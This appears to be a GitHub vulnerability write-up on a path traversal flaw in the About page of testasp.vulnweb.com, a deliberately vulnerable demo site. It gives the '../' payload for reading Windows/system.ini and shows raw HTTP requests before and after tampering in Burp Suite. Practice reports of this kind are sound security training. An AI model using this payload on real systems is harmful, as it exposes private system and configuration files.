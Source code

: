 # Title: Path Traversal VUlnerability In About Section of testasp.vulnweb.com
        
# Summary:

About section of vulnweb website http://testasp.vulnweb.com/ has a critical vulnerabilty that is Path traversal vulnerability - 

   A path traversal attack (also known as directory traversal) aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash (../)” sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system including application source code or configuration and critical system files. It should be noted that access to files is limited by system operational access control.
   
# Attack: ../../../../../../../../../../../../../../../../Windows/system.ini

# Evidence: [drivers]
   
   
# Steps To Reproduce:
   
   1) Go to the website and click on about section and open burpsuite to change the request. And change this parameter "html/about.html" to the given payload in Get:
          
          ../../../../../../../../../../../../../../../../Windows/system.ini
         
		![Screenshot_2022-03-09_16_22_01](https://user-images.githubusercontent.com/101261654/157542020-c9f38eea-bdd1-4436-bafd-833ac3fa5cec.png)

   From this: 
   
    GET /Templatize.asp?item=html/about.html HTTP/1.1
    Host: testasp.vulnweb.com
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Referer: http://testasp.vulnweb.com/
    Cookie: ASPSESSIONIDASRBTARC=CPFKNNHABGALGKCHKBBNIGCO
    Upgrade-Insecure-Requests: 1
![Screenshot_2022-03-09_16_22_32](https://user-images.githubusercontent.com/101261654/157542206-7bdbfb51-1405-40c7-8ab5-229053aab8e9.png)

To this:

    GET /Templatize.asp?item=../../../../../../../../../../../../../../../../Windows/system.ini HTTP/1.1
    Host: testasp.vulnweb.com
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Referer: http://testasp.vulnweb.com/
    Cookie: ASPSESSIONIDASRBTARC=CPFKNNHABGALGKCHKBBNIGCO
    Upgrade-Insecure-Requests: 1
	